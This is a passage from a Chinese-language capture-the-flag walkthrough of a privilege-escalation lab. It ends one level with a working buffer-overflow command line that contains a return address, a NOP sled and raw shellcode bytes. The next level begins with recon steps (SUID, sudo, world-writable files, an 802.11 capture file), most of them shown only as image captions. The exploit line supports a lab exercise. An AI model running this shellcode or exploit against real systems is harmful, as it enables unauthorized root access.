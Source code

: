 而我修改了这个nop sled数量为400个，照样也是可以提权的  
```
./r00t $(python -c 'print "A"*偏移量 + "esp其他地址" + "nop sled"*400 + "shellcode"')
./r00t $(python -c 'print "A"*268 + "\x50\xfb\xff\xbf" + "\x90"*400 + "\xba\x19\xb3\xb8\x79\xdb\xde\xd9\x74\x24\xf4\x5d\x29\xc9\xb1\x0b\x31\x55\x15\x83\xed\xfc\x03\x55\x11\xe2\xec\xd9\xb3\x21\x97\x4c\xa2\xb9\x8a\x13\xa3\xdd\xbc\xfc\xc0\x49\x3c\x6b\x08\xe8\x55\x05\xdf\x0f\xf7\x31\xd7\xcf\xf7\xc1\xc7\xad\x9e\xaf\x38\x41\x08\x30\x10\xf6\x41\xd1\x53\x78"')

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcuWDHBR3j3MHvLmZOmJPkIyZz5D62GiaVAgl6QDOuBvabjuT0n51XaL6Q/640?wx_fmt=png&from=appmsg "")  
  
image-20241227224933703  
  
这个案例就证明只要nop sled枚举的地址足够多，成功几率还是很大的，接下来是level 3  
## level 3  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcuX6SGEWamaXLQo0alLVFribQd97bkHqsQUlibkxTFVPO2ibSoOF9C93ZPg/640?wx_fmt=png&from=appmsg "")  
  
image-20241228193929123  
  
主机发现，直接连接就行了，start:here  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4Ccug5Jes170mND1VA04JJ9ibVx8ghCNVDibX2JpCqWY2wGFZ8LCOaic0waAQ/640?wx_fmt=png&from=appmsg "")  
  
image-20241228194825173  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcuBjIz3uqHh3rA88ImHicibiab5kvtg3F61D5YI5H9x9xV894cXSdtRbxPA/640?wx_fmt=png&from=appmsg "")  
  
image-20241228194844200  
  
suid  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4Ccu5Tic4rib0YEjg9RkIgcPMYSnOuOaWIDnMiaXRVYh67XHqUxptakpY2Aew/640?wx_fmt=png&from=appmsg "")  
  
image-20241228194938106  
  
常规信息收集  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcuXygAZjWgPcRb2h93zrEe9jPQynjSVbyHgtPgVvVsfQuNvGMEGfOcbQ/640?wx_fmt=png&from=appmsg "")  
  
image-20241228200129662  
  
sudo  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcuSzxpmYXSAEESStTOibsMV0ib4aLMvaK7gZibxTLiadUj8LDZyS4YEc0epg/640?wx_fmt=png&from=appmsg "")  
  
image-20241228200414866  
  
0777文件：表示一个文件或目录完全开放，任何用户都可以读取、修改和执行它。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcunD8flKdCDCuN7ia1VqKYFtKfSUtesdNWBnQFkLkuB82c1ppMTUQjOQw/640?wx_fmt=png&from=appmsg "")  
  
image-20241228201541211  
  
这里有一个cap文件（可以用wireshark工具打开），这不是常规的数据包，802.11跟无线协议的关系很大  
  